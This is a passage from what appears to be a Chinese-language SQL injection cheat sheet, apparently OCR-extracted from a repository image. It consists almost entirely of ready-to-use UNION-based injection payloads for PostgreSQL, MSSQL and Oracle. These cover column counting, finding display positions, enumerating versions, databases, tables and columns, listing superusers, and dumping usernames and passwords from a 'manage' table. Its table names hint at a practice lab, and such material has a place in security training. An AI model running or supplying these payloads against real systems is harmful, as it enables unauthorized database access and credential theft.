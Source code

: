 ```sql

and 1=2 union select null,string_agg(usename,','),null,null FROM pg_user WHERE usesuper IS TRUE

参考：https://www.freebuf.com/sectool/249371.html



\#MSSQL-sa高权限读写执行注入

-测列数：

order by 4
and 1=2 union all select null,null,null,null

-测显位：

and 1=2 union all select null,1,null,null
and 1=2 union all select null,null,'s',null

-获取信息：
@@version 获取版本信息
db_name() 当前数据库名字
user、system_user,current_user,user_name 获取当前用户名
@@SERVERNAME 获取服务器主机信息
and 1=2 union all select null,db_name(),null,null

-获取表名：

and 1=2  union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u'),null,null
union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage')),null,null

-获取列名：

and 1=2  union all select null,(select top 1 col_name(object_id('manage'),1) from sysobjects),null,null
and 1=2  union all select null,(select top 1 col_name(object_id('manage'),2) from sysobjects),null,null
and 1=2  union all select null,(select top 1 col_name(object_id('manage'),3) from sysobjects),null,null
and 1=2  union all select null,(select top 1 col_name(object_id('manage'),4) from sysobjects),null,null

-获取数据：

and 1=2 union all select null,username, password ,null from manage

#Oracle
参考：https://www.cnblogs.com/peterpan0707007/p/8242119.html
测回显：and 1=2 union select '1','2' from dual

爆库：and 1=2 union select '1',(select table_name from user_tables where rownum=1) from dual

模糊爆库：and 1=2 union select '1',(select table_name from user_tables where rownum=1 and table_name like '%user%') from dual

爆列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users') from dual

爆其他列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME')) from dual

```